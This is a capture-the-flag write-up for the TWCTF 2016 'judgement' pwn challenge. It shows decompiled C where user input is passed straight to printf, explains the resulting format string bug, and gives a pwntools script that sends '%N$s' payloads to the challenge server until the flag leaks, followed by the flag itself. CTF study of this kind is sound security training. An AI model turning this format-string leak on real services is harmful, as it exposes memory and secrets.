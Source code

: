 ```yaml
---
title: '[TWCTF-2016: PWN] judgement Writeup'
author: Megabeets
type: post
date: 2016-09-04T23:54:32+00:00
url: /twctf-2016-pwn-judgement/
categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - PWN
  - TWCTF
  - Writeups

---
```

Guest post by Shak.

> **Challenge description:**  
> _Host : pwn1.chal.ctf.westerns.tokyo_  
> _Port : 31729_  
> [judgement][1]{.attachment}

* * *

```sh
[Megabeets]$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag >> FLAG
FLAG
Wrong flag...

```


<span style="font-weight: 400;">Let’s check the binary. The following function is reading the flag from a local file on the server, so this binary will not reveal the flag, but further examining it might.</span>

```c
int __cdecl load_flag(char *filename, char *s, int n)
{
  int result; // eax@2
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v5; // [sp+1Ch] [bp-Ch]@5

  stream = fopen(filename, "r");
  if ( stream ) {
    if ( fgets(s, n, stream) ) {
      v5 = strchr(s, 10);
      if ( v5 )
        *v5 = 0;
      result = 1;
    }
    else { result = 0;}
  }
  else { result = 0; }
  return result;
}

```


<span style="font-weight: 400;">Next we can see the main function which gets our input and compares it to the flag. </span>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // esp@1
  int result; // eax@2
  int v5; // ecx@6
  char input; // [sp+0h] [bp-4Ch]@1
  int v7; // [sp+40h] [bp-Ch]@1
  int *v8; // [sp+48h] [bp-4h]@1

  v8 = &argc;
  v7 = *MK_FP(__GS__, 20);
  v3 = alloca(144);
  printf("Flag judgment system\nInput flag >> ");
  if ( getnline(&input, 64) ) {
    printf(&input);
    if ( !strcmp(&input, flag) )
      result = puts("\nCorrect flag!!");
    else
      result = puts("\nWrong flag...");
  }
  else {
    puts("Unprintable character");
    result = -1;
  }
  v5 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

```


<span style="font-weight: 400;">What it also does, is printing our input with no formatting (line 15), which means we can use <em>printf</em> format to read data from the stack. First of all, let’s check if this will work by trying to print the second value from the stack as a string</span>

```sh
Flag judgment system
Input flag >> %2$s
פJr≈
Wrong flag…
```


<span style="font-weight: 400;">It works, but no luck there. I wrote a simple python script that will print the first 300 values from the stack and search for the flag:</span>

```python
#!/usr/bin/python

from pwn import *

for i in xrange(1,300):
        r = remote('pwn1.chal.ctf.westerns.tokyo', 31729)
        r.recv()
        r.sendline("%{}$s".format(i))
        try:
                res = r.recv()
                if "TWCTF" in res:
                        print "The flag is: " + res
                        break
        except:
                pass
        r.close()
```


<span style="font-weight: 400;">And indeed we get it:</span>

```sh
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 31729
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
.
.
.
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
The flag is: TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Wrong flag...

```


<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://twctf7qygt6ujk.azureedge.n./judgement-4da7533784aa31b96ca158fbda9677ee8507781ead6625dc6d577fd5d2ff697c